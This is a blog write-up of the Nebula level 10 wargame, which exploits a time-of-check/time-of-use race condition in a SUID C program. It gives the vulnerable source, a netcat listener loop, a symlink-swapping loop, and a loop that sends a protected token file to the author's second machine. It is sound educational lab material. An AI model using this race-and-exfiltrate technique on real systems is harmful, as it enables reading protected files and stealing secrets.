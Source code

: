 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 10"
date: 2011-12-11T07:48:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


[Challenge 10](http://exploit-exercises.com/nebula/level10) is another nostalgic one for me. Back when I was first starting with linux, I remember reading about overflows and race conditions.  This challenge is the latter, a race condition. 

<!-- more -->

We're given a C/C++ app to exploit:

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

The problem with this code, is that it first checks to see if the user running the problem has access to the file (on line 24).  It then assumes for the rest of the execution of the program, that we *still* have access to it.  The point of this exercise is to trick the program by switching out the file while the program is running.  Hence a race condition. 

To set this one up, I used 2 machines, my Nebula machine, and another VM running [BackTrack Linux](http://www.backtrack-linux.org).  Any Linux should do, I just had this one handy.  The only requirement is [NetCat](http://nc110.sourceforge.net). 

On the BackTrack machine (10.1.1.132 for me), I ran 2 terminals.  The first contained:

```
root@bt:~# while :; do nc -l -p 18211 >> out.txt; done
```

The second contained:

```
root@bt:~# tail -f out.txt | grep -v ".oO Oo."
```

I ran both of these so that the first one would continuously open up a listening socket connection on port 18211 (per the vulnerable program), and append all information received to "out.txt".  The second command would continuously watch out.txt and output any lines that didn't have the little banner the vulnerable program uses.  That way I didn't get spammed with trash I didn't care about. 

Now on the Nebula machine, I ran 2 more terminals.  In the first, I ran:

```
level10@nebula:~$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```

And the second:

```
level10@nebula:~$ while :; do nice -n 20 ./flag10 /tmp/token10 10.1.1.132; done
```

These commands are pretty simple to pick apart.  They both are endless loops, just like the earlier NetCat session.  The first would create a symbolic link to /tmp/token10.  However, it would alternate between using /tmp/token (a blank file I made), and /home/flag10/token.  The idea is to try using /tmp/token when the access() is called in the vulnerable program, but then have /home/flag10/token be there when we actually send the file.  It's unreliable, but will eventually work.  The second command runs the vulnerable program, passing it the symlinked file and the BackTrack IP.  I used [nice](http://linux.about.com/library/cmd/blcmdl1_nice.htm), to lower the priority as low as possible, so that hopefully the symlinking loop would operate faster. 

When you have all of these terminals running, it's just a matter of time before you get the token sent to you.  Some iterations of flag10 will fail, some will succeed.  Just watch the second terminal on the BackTrack machine, and eventually you'll see the token come over.  You should see this flying across the screen:

{% blockquote %}615a2ce1-b2b5-4c76-8eed-8aa5c4015c27{% endblockquote %}

Just stop all the terminals, and you should be done with this challenge.  I did learn quite a bit on this one, as it was honestly my first race condition I'd ever had to exploit.  My original methodology was to use [GDB](http://www.gnu.org/s/gdb/) to start the program, and set a breakpoint after the initial access() was done.  Then switch the file manually, and resume.  This worked brilliantly, however I learned that when dealing with SUID programs, you can't use GDB on them, unless you run GDB as root.  This is a security design of Linux.  So instead, I had to go with the quirky commands.  I'm still interested in seeing if it could be done with a custom C++ app which would invoke flag10, and attach to the process using ptrace to duplicate my GDB idea.  I just don't know if it'll work or not.